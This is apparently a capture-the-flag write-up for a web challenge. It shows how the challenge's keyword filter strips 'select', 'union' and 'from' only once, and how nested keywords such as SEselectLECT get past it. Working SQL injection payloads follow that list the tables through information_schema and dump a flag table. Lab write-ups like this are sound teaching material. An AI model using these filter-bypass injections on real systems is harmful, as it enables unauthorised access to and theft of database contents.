







# Write-ups for TCTT2023/Web/02

## Flag pattern

`CTT23{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}`

## Challenge Files

_No file provided_

## Solution

1. First, let observe the website.

   - Input: `select`

   

   - Input: `selectc`

   

   - Input: `selectv`

   

   - Input: `selectz`

   

From our result, we can clude that, it only replace `'select'`, `'union'`, `'from'` with `''`

2. We want to know all tables names in the database. So, we can use `information_schema.tables` to get all tables names.

The original payload is

```
' UNION SELECT 1,table_name FROM information_schema.columns #
```

To prevent it from being replaced, we can use `SEselectLECT` instead of `SELECT`.

```
' UNunionION SEselectLECT 1,table_name FRfromOM information_schema.columns #
```





We can see the table named `flag_table`. Let's get data in this table.

3. Crafting new payload to get all data in table.

```
' UNION SELECT * FROM flag_table #
```

to

```
' UNunionION SEselectLECT * FRfromOM flag_table #
```



4. So the flag is `CTT23{SQLi_R3p7ac3_F7@g_w1th_NULL}`
